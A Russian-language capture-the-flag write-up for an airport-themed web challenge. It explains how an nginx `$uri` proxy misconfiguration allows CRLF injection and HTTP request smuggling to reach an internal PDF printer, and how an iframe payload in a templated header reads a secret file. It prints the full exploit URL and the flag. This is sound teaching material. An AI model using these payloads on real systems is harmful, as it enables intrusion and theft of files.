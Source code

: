 # Капибардак


### Описание

Вас приветствует аэропорт Капибаровска.

И он уже два часа не принимает и не отправляет самолеты из-за взлома: рейсы и время на табло перепутаны, багажная лента стоит, нервозность растет.

Добудьте код и запустите восстановление системы.

Сайт аэропорта: t-bedlam-d0dw3v3n.spbctf.org/

Исходный код: bedlam_7b22be3.tar.gz

## Решение

### Изучение работы сервиса

Скачиваем сорцы bedlam_7b22be3.tar.gz, разархивируем и видим:

```
$ tree    
.
└── bedlam
    ├── backend
    │   ├── Dockerfile
    │   ├── gunicorn.conf.py
    │   ├── main.py
    │   └── req.txt
    ├── docker-compose.yaml
    ├── nginx
    │   ├── internal.conf
    │   ├── nginx.conf
    │   └── static
    │       ├── booking.html
    │       ├── css
    │       │   └── style.css
    │       ├── favicon.png
    │       ├── index.html
    │       ├── js
    │       │   ├── booking.js
    │       │   └── main.js
    │       ├── logo.png
    │       └── repair.html
    ├── printer
    │   ├── Dockerfile
    │   └── src
    │       ├── package.json
    │       ├── pdf.js
    │       ├── server.js
    │       ├── ticket.tmpl
    │       └── tickets
    └── repair_code

```

Запускаем **docker compose**, изучаем сорцы, как работает сервис. Видим архитектуру сервиса.

![](img/app.png)

1) Пользователь обращается к сервису, развернутому за **nginx reverse proxy**, который обслуживает статический контент (HTML + JS). После заполнения формы для генерации PDF-билета, клиент отправляет запрос на эндпоинт **/ap**i.

2) Сервис **nginx** содержит конфигурацию для локации **/api**, которая перенаправляет запросы через проксирование на внутренний — **internal-balancer**.

```
location /api {
    proxy_set_header Host backend;
    proxy_pass http://internal-balancer$uri;
}
```
3) Сервис **internal-balancer** это nginx реверс прокси, который обслуживает два сервиса **printer** и **backend**. Клиентский запрос с **host=internal-balancer** и **uri=/api** попадает в сервис **backend**.
4) Сервис **backend** принимает входящие данные, нормализирует их, добавляет и митигирует параметры, затем выполняет запрос в **internal-balancer** на ендпоинт **/generate**

```
r = requests.post(
    "http://internal-balancer/generate",
    headers={"X-Trace-Id": str(uuid4())},
    data=data,
)
```

Также стоит обратить внимание на добавление заголовка **X-Trace-Id**

5) В свою очередь, сервис **print** выполняет создание PDF документа по **.tmpl** шаблону.


### Где находится флаг

Сам флаг находится в переменной окружения **${FLAG}**, которая будет прочитана микросервисом **backend** при POST-запросе на **/repair_panel**, где в теле сообщение передается **code=** который должен совпадать с кодом из файла **repair_code**:

```py
@app.route("/repair_panel", methods=["POST"])
def repair_panel():
    user_code = request.json.get("code")
    with open("/repair_code") as f:
        instruction = f.read()
        code = re.search(r'code: ([A-z0-9_-]{14,36})\.', instruction)
        if user_code == code.group(1):
            FLAG = os.getenv("FLAG")
            return jsonify({"message": f"System restored: {FLAG}"}), 200
        else:
            return jsonify({"error": f"Code is incorrect."}), 400
```

![](img/repair_code.png)

При этом, файл **repair_code** смонтирован в обоих сервисах: **backend** и **print**. Ключевая задача, прочить файл **repair_code**

### Моделирование угроз


#### Local File Inclusion

В первую очередь в глаза бросается шаблонизация при печати PDF документа и заголовок **X-Trace-Id**.


```js
export async function generateBoardingPass(boardingPassData) {
    
    const filePath = path.join(path.resolve(''), 'ticket.tmpl');
    const template = hbs.compile(fs.readFileSync(filePath, 'utf8'));
    const boardingPassTemplate = template(boardingPassData);
```

```html
<div style="opacity: .2;">X-Trace-Id: {{ trace traceId }}</div>
```

Локально в качестве отладки, меняя шаблон и проведя несколько тестов с различными пейлодами и пересобрав приложение, получается выполнить **LFI**, где в **X-Trace-Id** передается пейлод. Узвимость подтверждена, но если передать **X-Trace-Id** в сервис **backend**, то он будет перезаписан. Нужен способ, как байпаснуть митигации в **backend** микросервисе, **либо обойти его** и сделать запрос в **printer**.

```html
<iframe src="file:///repair_code">
```

#### HTTP Request Smuggling

Изучаем конфиги **nginx** и **load-balancer**, находим паттерн миссконфигурации которая может приводить к **HTTP Request Smuggling** используеся **CRLF** атаку. Сервис **nginx** имеет конфиг:

```
location /api {
    proxy_set_header Host backend;
    proxy_pass http://internal-balancer$uri;
}
```

**$uri** - это встроенная переменная **nginx**, которая содержит **URI** запроса (без параметров, начинается с **/**), **$uri** обычно используется при создании перенаправлений в конфигурации **Nginx**, что приводит к внедрению **CRLF**. 

Выполнив **HTTP Request Smuggling** будет возможность попасть во внутренний сервис **printer**, где используя **LFI** можно прочитать файл **/repair_code**.


### Эксплуатация

Пробуем подобрать пейлод, чтобы выполнить **HTTP Request Smuggling**, при этом, нужно создать валидный запрос со всеми обязательными параметрами для печати PDF документа:

```
https://<host>/api/%252e%252e/generate%20HTTP/1.0%0D%0AHost%3A%20printer%0D%0AX-Trace-Id%3A%20%3Ciframe%20src%3D/repair_code%20height%3D999%3E%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2093%0D%0A%0D%0Apassenger%3Da%26flight_number%3Db%26date%3Dc%26seat%3Dd%26from%3De%26to%3Df%26departure%3Dg%26arrival%3Dh%26gate%3Di%26terminal%3Dj
```

![](img/payload.png)

В итоге получаем билет в котором будет содержимое **/repair_code**

![](img/ticket.png)

Получем флаг: tctf{WoW_You_WON_yOUR_Gold3n_ticKE7_T0_7he_plANe}

![](img/flag.png)

